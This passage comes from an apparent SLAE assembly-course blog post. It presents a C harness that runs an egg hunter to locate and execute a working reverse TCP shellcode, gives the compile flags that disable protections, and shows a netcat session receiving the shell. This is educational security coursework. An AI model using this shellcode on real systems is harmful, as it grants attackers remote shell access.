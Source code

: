 In order to test this, I modified the C program that has been used in the previous SLAE blog posts to include both the egg hunter above, and the previously used reverse TCP shellcode.

The only modification to the shellcode is to precede it with two instances of the egg (`\xef\xbe\xad\xde`) so it can be found by the egg hunter:

```c
#include <stdio.h>
#include <string.h>

unsigned char egghunter[] = "\x31\xdb\x31\xc9\x31\xd2\xbe\xef\xbe\xad\xde\x66\x81\xca\xff\x0f\x42\x31\xc0\xb0\x21\x8d\x5a\x08\xcd\x80\x3c\xf2\x74\xed\x39\x32\x75\xee\x8d\x5a\x04\x39\x33\x75\xe7\x8d\x53\x04\xff\xe2";
unsigned char shellcode[] = "\xef\xbe\xad\xde\xef\xbe\xad\xde\x89\xe5\x31\xc0\x31\xc9\x31\xd2\x50\x50\xb8\x2\x2\x2\x2\xbb\x7d\x2\x2\x3\x31\xc3\x53\x66\x68\x11\x5c\x66\x6a\x02\x31\xc0\x31\xdb\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc3\x66\xb8\x6a\x01\x89\xe1\x89\xea\x29\xe2\xcd\x80\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x49\xcd\x80\x41\xe2\xf6\x31\xc0\x31\xd2\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80";

int main(void)
{
    printf("Egg hunter length: %d\n", strlen(egghunter));
    printf("Shellcode length: %d\n", strlen(shellcode));

    void (*s)() = (void *)egghunter;
    s();

    return 0;
}
```

As with previous incarnations of this C program, it can be compiled by running: `gcc -m32 -fno-stack-protector -z execstack egghunter.c -o egghunter`

After starting a netcat listener and running the egghunter executable, the shellcode was successfully found and executed - providing a reverse shell:

```shell_session
$ nc -vlp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from localhost 40976 received!
pwd
/home/rastating/Code/slae/assignment_3
netstat -an | grep "4444"
tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:40976         127.0.0.1:4444          ESTABLISHED
tcp        0     26 127.0.0.1:4444          127.0.0.1:40976         ESTABLISHED
```

<hr />

This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/).

Student ID: SLAE-1340

All source files can be found on GitHub at [https://github.com/rastating/slae](https://github.com/rastating/slae)
